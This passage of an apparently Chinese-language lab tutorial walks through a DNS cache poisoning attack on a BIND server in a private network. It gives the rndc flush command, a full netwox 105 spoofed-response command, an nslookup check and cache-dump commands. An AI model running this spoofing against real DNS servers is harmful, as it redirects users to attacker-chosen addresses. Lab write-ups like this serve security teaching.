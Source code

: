 　　为避免我们要攻击的DNS服务器已经有缓存，攻击之前，我们要确保DNS服务器的缓存为空，可以使用以下命令刷新缓存：

```
$ sudo rndc flush
```

　　攻击者使用Netwox工具来监听来自DNS服务器机的数据包，然后生成一个假的DNS响应给我们的DNS服务器。Netwox的命令如下：

```
sudo netwox 105 --hostname "www.fanzhenyu.me" --hostnameip 192.168.0.200 --authns "ns.fanzhenyu.me" --authnsip 192.168.0.200 --ttl 600 --filter "src host 192.168.0.10" --spoofip "raw"
```

![11-7](http://ohe7ixo05.bkt.clouddn.com/2018/1/11-7.png)

　　然后，在用户机使用如下命令发起DNS查询请求：

```
$ nslookup www.fanzhenyu.me
```

　　攻击结果如下图，与没有攻击对比，缓存污染后DNS请求的响应已经是被污染的IP地址：

![11-8](http://ohe7ixo05.bkt.clouddn.com/2018/1/11-8.png)

　　同时，可以使用如下命令转储和查看DNS服务器的缓存，
  
```
$ sudo rndc dumpdb -cache 
$ sudo cat /var/cache/bind/dump.db
```

　　结果如下图，可以看到缓存已被污染。

![11-9](http://ohe7ixo05.bkt.clouddn.com/2018/1/11-9.png)
